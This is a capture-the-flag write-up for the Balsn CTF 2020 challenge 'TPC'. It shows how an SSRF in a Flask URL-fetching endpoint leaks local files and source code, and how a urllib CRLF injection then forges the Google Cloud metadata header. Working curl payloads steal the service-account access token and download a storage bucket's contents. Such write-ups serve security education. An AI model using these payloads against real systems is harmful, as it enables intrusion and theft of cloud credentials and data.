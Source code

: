 ## TPC

by TnMch



By checking the url givng `http://35.194.175.80:8000/` we found a printed text that mentions the entry point for this challenge

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/99299251-40d08e00-284b-11eb-819a-09db889acbb9.png" alt="main" >

sending `file:///etc/passwd` as a **site** argument gives us the content for  `/etc/passwd`

```
view-source:http://35.194.175.80:8000/query?site=file:///etc/passwd
```

<img src="https://user-images.githubusercontent.com/7364615/99298929-c7d13680-284a-11eb-8d4b-23d495400e72.png" alt="etc_passwd" style="zoom: 67%;" />

So its **SSRF** ( Server-side request forgery ), if we send `file:///proc/self/cmdline` we get the command line which include python file name `main-dc1e2f5f7a4f359bb5ce1317a.py`

```
/usr/local/bin/python/usr/local/bin/gunicorn main-dc1e2f5f7a4f359bb5ce1317a:app--bind0.0.0.0:8000--workers5--worker-tmp-dir/dev/shm--worker-classgevent--access-logfile---error-logfile-
```

 And finally read the source code http://35.194.175.80:8000/query?site=file:///opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py`

```
import urllib.request

from flask import Flask, request

app = Flask(__name__)


@app.route("/query")
def query():
    site = request.args.get('site')
    text = urllib.request.urlopen(site).read()
    return text


@app.route("/")
def hello_world():
    return "/query?site=[your website]"


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=8000)
```



Simple code, if we read more on `urllib` we can find it vulnerable to **CRLF** : https://bugs.python.org/issue35906 (CVE-2019-9947)

And if we check `file:///etc/hosts` we find 

```
169.254.169.254 metadata.google.internal metadata
```

So we can read google cloud metadata using **SSRF** chained with **CRLF** 

```
curl -v 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

As output we have 

```
attributes/
cpu-platform
description
disks/
guest-attributes/
hostname
id
image
legacy-endpoint-access/
licenses/
machine-type
maintenance-event
name
network-interfaces/
preempted
remaining-cpu-time
scheduling/
service-accounts/
tags
virtual-clock/
zone
```



We just next get access token , find out that we have access to storage **devstorage.read_only**

```
{
  "issued_to": "102193360015934362205",
  "audience": "102193360015934362205",
  "scope": "https://www.googleapis.com/auth/trace.append https://www.googleapis.com/auth/monitoring.write https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_only",
  "expires_in": 2844,
  "access_type": "online"
}
```

Reading **access_token**

```
curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

And to read all `asia.artifacts.balsn-ctf-2020-tpc.appspot.com` bucket data

We have full cmd to just process all this steps :

```
mkdir out && access_token=$(curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20' | jq -r '.access_token') && curl -s 'https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o?access_token='$access_token | jq -r '.items[].name' | while read obj;do curl -s -X GET -H 'Authorization: Bearer '$access_token https://storage.googleapis.com/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/{$obj} --output out/output_$(echo $obj | cut -d ':' -f 2)  ;done && cd out && for i in $(ls); do mkdir files;tar -xvf $i -C files/ ;done && grep -r "BALSN" files/opt
```

And we just got the flag in the `/opt/workdir` directory

```
BALSN{What_permissions_does_the_service_account_need}
```
